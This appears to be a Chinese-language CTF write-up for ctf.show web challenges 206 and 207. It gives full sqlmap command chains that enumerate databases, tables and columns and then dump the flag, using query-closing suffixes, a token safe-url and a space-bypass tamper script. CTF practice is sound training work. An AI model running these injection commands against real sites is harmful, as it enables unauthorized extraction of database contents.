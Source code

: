 ## web 206

sql需要闭合

sqlmap会自动识别和闭合。也可以手动闭合，–suffix:指定payload后面加的后缀，可以添加多个

`--suffix="')#"`

打开f12，在查询框输入1，可以看到网络调用api时，还请求了一个getToken.php。和上一题相似

直接跑了

 ```bash
# 爆数据库   ctfshow_web
sqlmap -u https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain" --safe-url https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库来爆表名     ctfshow_flaxc
sqlmap -u https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web --tables --safe-url https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库,表爆字段   flagv,id,tes
sqlmap -u https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxc --columns --safe-url https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxc -C flagv --dump --safe-url https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/getToken.php --safe-freq 1
```

## web 207

--tamper 的初体验   tamper绕过空格

`--tamper=space2comment`   太好玩辣，就是跑的慢

 ```bash
# 爆数据库   ctfshow_web
sqlmap -u https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain" --safe-url https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库来爆表名     ctfshow_flaxca
sqlmap -u https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web --tables --safe-url https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库,表爆字段   flagvc,id,tes
sqlmap -u https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxca --columns --safe-url https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxca -C flagvc --dump --safe-url https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
```
